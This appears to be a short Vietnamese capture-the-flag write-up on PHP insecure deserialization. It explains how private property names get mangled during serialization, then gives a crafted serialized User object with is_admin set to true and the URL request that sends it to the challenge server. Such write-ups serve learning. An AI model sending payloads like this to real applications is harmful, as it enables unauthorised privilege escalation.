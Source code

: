 Ở đây mình sẽ đổi $is_admin=true, tạo 1 biến a thuộc class User là getfl4g là tên nhóm của mình và cho echo ra serialize của biến a để lấy payload.

<img width="666" alt="Screen Shot 2021-10-19 at 23 57 21" src="https://user-images.githubusercontent.com/64759503/137957059-0acfff3a-3741-47f9-8c44-da5997858026.png">

Nhưng nếu sử dụng payload này ngay thì chưa được đâu, nhìn kĩ payload thì các biến đã bị đổi tên bằng cách thêm User vào phía trước như name -> Username, 
is_admin -> Useris_admin vì 2 biến được đặt ở private nên serialize sẽ mặc định như vậy. Nên phải đưa 2 biến này về đúng tên của nó 
 
```O:4:"User":3:{s:4:"name";N;s:8:"is_admin";b:1;s:7:"getfl4g";s:7:"getfl4g";} ```

Bây giờ truyền payload vào:

```http://45.122.249.68:10001/?code=O:4:%22User%22:3:{s:4:%22name%22;N;s:8:%22is_admin%22;b:1;s:7:%22getfl4g%22;s:7:%22getfl4g%22;}```

<img width="1194" alt="Screen Shot 2021-10-20 at 00 04 22" src="https://user-images.githubusercontent.com/64759503/137958094-71571b3e-37b1-44eb-b21d-f52d6548f96a.png">

DONE!
